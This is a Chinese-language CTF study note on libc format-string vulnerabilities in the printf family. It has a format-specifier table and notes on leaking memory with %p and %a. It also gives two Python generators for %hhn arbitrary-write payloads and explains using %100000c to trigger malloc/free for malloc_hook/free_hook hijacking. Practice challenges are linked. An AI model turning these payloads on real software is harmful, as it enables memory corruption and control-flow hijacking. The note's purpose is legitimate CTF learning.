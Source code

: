 
# libc函数漏洞

# printf

著名的**格式化字符串漏洞**就不说啦~ `printf`家族的函数都存在这个漏洞

> printf,  fprintf,  dprintf,  sprintf,  snprintf, vprintf, vfprintf, vdprintf, vsprintf, vsnprintf 

## 常用格式

| 格式符 | 用途                           | 备注                                                         |
| ------ | ------------------------------ | ------------------------------------------------------------ |
| `%p`   | 以指针格式输出栈中变量的地址   | `$`用于指定位置参数，e.g.`%13$p`                             |
| `%s`   | 输出栈中指针指向的字符串       | 若指针不合法则输出`(nil)`                                    |
| `%a`   | 以double格式输出栈中变量       | 常见于`printf_chk`泄漏`libc`，详见[#1](#泄漏内存)            |
| `%c`   | 以char格式输出栈中变量         | 打印过多字符将调用`malloc`，详见[#2](#触发malloc)       |
| `%n`   | 将已输出的字符数保存到栈中指针 | 若指针不合法则报错<br />`%n`-4字节; `%hn`-2字节; `%hhn`-1字节 |

## 泄漏内存

`%p`用于泄漏内存就不多说了

用`%a`的时候要注意一下输出格式的问题，比如有如下输出：

```c
0x0.07fcf47895ap-1022
```

由于是小数的形式打印的，变量末尾的0会被自动省略掉，需要手动还原一下：

```c
0x07fcf4789500
```



## 任意写

### case1: buf足够大

如果buf足够大，可以考虑同时使用多个格式符，一次完成变量的修改。

下面是keer师傅的`%hhn`大法可以快速完成任意写，payload长度至少为`128`

```python
def fmt(data,addr,off):
    arg0=(data)&0xff
    arg1=(data&0xff00)>>8
    arg2=(data&0xff0000)>>16
    arg3=(data&0xff000000)>>24
    arg4=(data&0xff00000000)>>32
    arg5=(data&0xff0000000000)>>40
    print arg0,arg1,arg2,arg3
    # arg6=(data&0xf f000000000000)>>48
    # arg7=(data&0xf f00000000000000)>>56
    pay1='%'+str(arg0)+'c%'+str(off+10)+'$hhn'
    pay2='%'+str( (arg1-arg0+0x100)%0x100)+'c%'+str(off+11)+'$hhn'
    pay3='%'+str( (arg2-arg1+0x100)%0x100)+'c%'+str(off+12)+'$hhn'
    pay4='%'+str( (arg3-arg2+0x100)%0x100)+'c%'+str(off+13)+'$hhn'
    pay5='%'+str( (arg4-arg3+0x100)%0x100)+'c%'+str(off+14)+'$hhn'
    pay6='%'+str( (arg5-arg4+0x100)%0x100)+'c%'+str(off+15)+'$hhn'
    payload = pay1+pay2+pay3+pay4+pay5+pay6 # +'%100000c'
    payload = payload.ljust(8*10,'A')
    payload+= p64(addr)
    payload+= p64(addr+1)
    payload+= p64(addr+2)
    payload+= p64(addr+3)
    payload+= p64(addr+4)
    payload+= p64(addr+5)
    return payload
```

`%hhn`一次写1个字节，相当于是`byte/char`型，最大范围是`0xff`，所以`(arg1-arg0+0x100)%0x100`这样的溢出写法，可以在不排序的情况下准确覆盖变量。

由于每次只改1字节，使用`%hhn`快速完成任意写，不足之处就是payload太长。

### case2: buf不够大

如果buf长度不够，可以考虑重复利用`printf`，多次攻击完成变量的修改。

下面是藕自己写的模板，payload长度最少是`32`字节：

```python
def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

```

>其中10是offset，用的时候改一下

## 触发malloc

`%100000c`表示在输出字符时向左侧填充空格，最终输出长度为`100000`的字符串。当字符串长度过大的时候，`printf`内部将调用`malloc`申请空间作为缓冲器，输出结束后会`free`掉这片空间。

利用方式：

* 篡改`malloc_hook`/`free_hook`，使用`%100000c`触发`malloc`/`free`，劫持程序控制流
* 和堆相关利用结合，利用`printf`隐试调用`malloc`

> 此外，从原理上看`%100000s`,`%10000d`等类似格式也可达到同样效果。

## 练习题

* [0CTF-EasiestPrintf](https://poning.me/2017/03/23/EasiestPrintf/)

* [ACTF-fmt64](http://taqini.space/2020/02/13/ACTF2020-writeup/#fmt64)

* [eonew-easy_printf](http://pwn.eonew.cn/) (根据Ex师傅平台的要求就不公开wp了) 
* [ACTF-chk_rop](https://github.com/TaQini/ctf/tree/master/ACTF2020/pwn/unsolved/chk_rop) (printf_chk)

> 更新日期：2020年 04月 01日 星期三 23:05:56  CST

# scanf



# abs


